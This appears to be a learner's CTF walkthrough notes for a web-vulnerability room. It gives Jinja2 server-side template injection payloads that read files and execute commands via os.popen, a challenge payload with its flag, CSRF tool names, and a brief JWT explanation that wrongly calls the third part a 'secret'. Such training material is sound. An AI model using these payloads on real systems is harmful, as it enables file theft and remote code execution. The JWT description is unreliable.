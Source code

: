 6 july 2021 - Tuesday


#	ZTH: Obscure Web Vulns

This room contains walkthrough on different vulnerabilities!

The vulnerabilities that will be discussed are:

*	SSTI
*	CSRF
*	JWT
*	XXE




##	server side template injection

*	payload to read files
	```
{{ ''.__class__.__mro__[2].__subclasses__()[40]()(<file>).read()}}
	```

*	payload to execute commands
	```
{{config.__class__.__init__.__globals__['os'].popen(<command>).read()}}
	```

*	tool:

`Tplmap` is tool for automated testing of SSTI.

###	challenge

payload
```
{{config.__class__.__init__.__globals__['os'].popen('cat /flag').read()}}
```

flag
```
cooctus
```




##	CSRF


*	tool:

`xsrfprobe` can be used for automated testing of CSRF vulnerability.
 
##	JWT 

JWT is **Json Web Token** and is NoT a vulnerability.
it's method involved in authentication.

*	structure:
	```
header.payload.secret
	```
	*	secret is only known to server.

*	everything is base64 encoded.

*	`header` structure (example)
	```
{"typ":"JWT","alg":"RS256"}
	```


